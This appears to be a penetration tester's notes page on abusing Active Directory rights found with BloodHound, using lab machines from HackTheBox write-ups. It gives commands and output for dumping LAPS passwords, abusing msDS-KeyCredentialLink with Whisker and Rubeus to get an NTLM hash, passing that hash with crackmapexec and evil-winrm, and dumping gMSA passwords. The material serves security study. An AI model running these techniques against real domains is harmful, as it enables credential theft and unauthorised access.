 ```yaml
---
description: >-
  BloodHound Vector Attacks
title: BloodHound Vector Attacks              # Add title here
date: 2023-05-28 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc, bloodhound]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### ReadLAPSPassword
We can use the utility laps.py to read LAPS passwords outside the machine, all we need is valid credentials:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
Examples:
[Timelapse](https://shuciran.github.io/posts/Timelapse/#fnref:readlapspassword)
[[StreamIO#^2cc182]]

Also another technique is with [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1) which can be abused within the machine:
```powershell
```
Examples:
[Timelapse](https://shuciran.github.io/posts/Timelapse/#fnref:Get-LAPSPasswords)

### AddKeyCredentialLink
We can use `Invoke-Whisker.ps1` to abuse this privilege, first we need to execute the following command after upload it to the victim machine. This will retrieve a huge command that can be used with [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries):
```powershell
PS C:\Windows\Temp\Recon> Invoke-Whisker -Command "add /target:sflowers"
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password lAfNxND7rgF9A5mJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 86d8f569-2258-4ab5-8ce1-0c8befa21b55
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers 
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhY...
vXgICB9A= /password:"lAfNxND7rgF9A5mJ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
But first we need to delete the carrier return and jump line of every line on it, so we can use "tr" and "sponge" commands after saving the output on a file called data:
```bash
cat data | tr -d '\n' | sponge data
```
Finally we need to upload the Rubeus.exe with curl and execute it as indicated by `Invoke-Whisker`:
```powershell

 ______        _
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  1/25/2023 7:28:01 AM
  EndTime                  :  1/25/2023 5:28:01 PM
  RenewTill                :  2/1/2023 7:28:01 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  8hh6He6G6F2lLiBgwgmo3w==
  ASREP (key)              :  EB63CD6F931B4E922AC0EC5439D0C716

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
This will retrieve the NTLM hash of the user sflowers, which then can be checked with crackmapexec:
```bash
crackmapexec winrm 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' 
SMB         10.10.11.175    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```
The [+] and the (Pwned!) indicates that it is possible to login via winrm so let's do it:
```powershell
evil-winrm -i 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'         

*Evil-WinRM* PS C:\Users\sflowers\Documents>
```
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:addkeycredentialink)

### ReadGMSAPassword
After searching about how to execute a `ReadGMSAPassword` from our user, an excellent technique to obtain the GMSA password is abusing of [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) as follows:
```bash
/usr/share/privesc/Windows/gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::fca9edf1c9fb8f031dfc38d918279642
svc_int$:aes256-cts-hmac-sha1-96:15516a903b67ce2aacda697b76fae9c2d1fc60e3408abc6587b2faeefb6bfac2
svc_int$:aes128-cts-hmac-sha1-96:4e25dcda503a43e8757abe3081892114
```

[Search](https://shuciran.github.io/posts/Search/#fnref:read-gmsa-password)